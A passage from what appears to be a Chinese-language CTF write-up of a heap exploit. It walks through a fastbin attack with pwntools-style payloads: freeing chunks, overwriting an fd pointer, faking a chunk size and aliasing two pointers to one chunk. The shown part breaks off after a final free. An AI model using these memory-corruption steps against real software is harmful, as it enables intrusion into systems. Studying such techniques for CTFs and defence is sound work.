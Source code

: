 释放chunk1和2

```python
free(1)
free(2)
```



fbin->chunk2--->chunk1--->0x0



接着通过修改chunk0，来修改chunk2的fd指针

```python
payload = p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21)
payload += p8(0x80)
fill(0,len(payload),payload)
```

应该是：fbin-->chunk2--->chun4--->0x0

也就是，chunk1已经无法访问到了。



然后修改chunk3,修改chunk4的大小，原本它是0x91,修改为0x21

```python
payload = p64(0)*3 + p64(0x21)
fill(3,len(payload),payload)
```

再分配2个chunk

```python
allo(0x10)#1 The original position of 2
allo(0x10)#2 4 Simultaneous pointing
```

fbin-->0x0

其实呢，chunk4，也就是那个大的chunk暂时是没有被释放过。但是我们通过修改fbin里面被释放的chunk的指针，让bin误以为我们释放了一个fastbin中的chunk4，然后修改chunk4的大小（为了躲过检查），然后再次分配，使得chunk4的地址被一个新的小指针指向。等于有两个指针指向同一个位置——chunk4。

接着，我们：

```python
payload = p64(0)*3 + p64(0x91)
fill(3,len(payload),payload)
```

修改chunk4的大小，本来它的size就是0x91，

等于是，恢复了chunk4。

同时有一个chunk2，大小为0x21,也指向这个位置。

free了chunk4。

```python
free(4)
```
